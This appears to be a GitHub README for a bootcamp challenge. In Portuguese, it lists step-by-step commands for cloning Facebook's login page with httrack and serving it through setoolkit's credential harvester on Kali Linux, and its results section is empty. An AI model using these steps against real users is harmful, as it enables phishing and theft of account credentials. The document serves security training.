

# DIO-desafio-phishing

Desafio de projeto para realizar um ataque phishing do tipo harvester de credencial no facebook utilizando o setoolkit para realizar o ataque, e o kali linux como sistema operacional.

### Metodo utilizado

- Acesso root: ``` sudo su ```
- Baixando httrack: ```apt install httrack```
- Clonando a página: ```httrack https://www.facebook.com -O /home/kali/facebook ```
- Iniciando o setoolkit: ``` setoolkit ```
- Tipo de ataque: ``` Social-Engineering Attacks ```
- Vetor de ataque: ``` Web Site Attack Vectors ```
- Método de ataque: ```Credential Harvester Attack Method ```
- Método de ataque: ``` Cloner Import ```
- ```Enter```
- Passando o caminho: ``` /home/lush/facebook/m.facebook.com/```
- Site clonado: ```m.facebook.com```
- Obtendo o endereço da máquina: ``` ifconfig ```
- Acessar utilizando ```ip.do.host:porta_host```

### resultado


